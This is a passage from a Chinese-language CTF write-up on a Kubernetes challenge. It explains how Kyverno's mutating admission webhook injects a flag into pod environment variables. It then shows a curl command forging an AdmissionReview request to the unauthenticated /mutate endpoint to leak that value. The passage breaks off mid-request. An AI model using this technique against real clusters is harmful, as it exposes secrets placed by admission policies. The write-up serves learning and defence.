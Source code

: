 ```jsx
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

kyverno默认会开放一些服务，题目的网络环境直通这些服务。其中15001端口是kyverno的控制器，也就是AdmissionWebhook Server服务本身。一般来说，AdmissionWebhook Server在Kubernetes集群的准入控制原则中有Valiteda、Mutata、Generate、Verify Images这四类操作。这里讲一下题目涉及到的mutate操作流程：

1. **请求截获**：当一个请求（如创建、更新 Kubernetes 资源）发送到 API 服务器时，它首先被 Mutating Webhook 拦截。
2. **调用 Webhook**：API 服务器将请求转发给配置的 Mutating AdmissionWebhook Server。
3. **执行修改**：AdmissionWebhook Server 服务检查请求内容，并可以对Kubernetes资源对象进行修改。例如，它可以添加、删除或更新对象的某些字段。这允许在对象最终持久化之前实现自定义的修改逻辑。
4. **返回修改**：修改后的对象随着 Webhook 的响应返回给 API 服务器。
5. **持久化对象**：如果请求被多个 Mutating Webhooks 拦截，则按配置的顺序依次调用它们。所有 Mutating Webhooks 处理完毕后，修改后的对象被持久化存储。

到这里就不难理解kyverno是如何把flag塞进Pod容器了：通过「mutate操作」修改Pod容器的workload描述，随后再向kube-apiserver发起请求，根据修改后的workload描述建立Pod容器。整个过程相当于对「Pod Workload 描述文件」的spec.containers.env字段增加了env内容，具体可以参考kyverno文档中对拦截过程的描述

![Untitled](https://blog-1258539784.cos.ap-beijing.myqcloud.com/2024/03/25/untitled-16.png)

比较离谱的是，通过helm安装的kyverno模式没有配置双向TLS，是可以直接通过容器的网络环境访问kyverno svc 15001端口的https rest api。于是解题思路就比较明确了：我们与AdmissionWebhook Server的mutate rest api接口交互，构造符合条件的准入请求，迫使AdmissionWebhook Server返回给我们mutate之后的Pod Workload描述，其中就包含了flag值，具体来说：

1. 给kyverno的Admission controller发送AdmissionReview请求，填充AdmissionReview.request字段，使其满足Policy。
2. Admission controller在对这样的AdmissionReview请求进行mutate后，填充env字段（flag）到AdmissionReview.response返回给用户。
3. 用户拿到http response后，解码AdmissionReview.response字段内容即可。

捏造完整的AdminissionReview请求如下：

```jsx
curl -X POST https://kyverno-svc.kyverno.svc.cluster.local/mutate -k -H "Content-Type: application/json" -d '{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "request": {
    "uid": "1234sdsa5-67890-abcdef",
    "kind": {
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "requestKind":{
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "requestResource":{
```
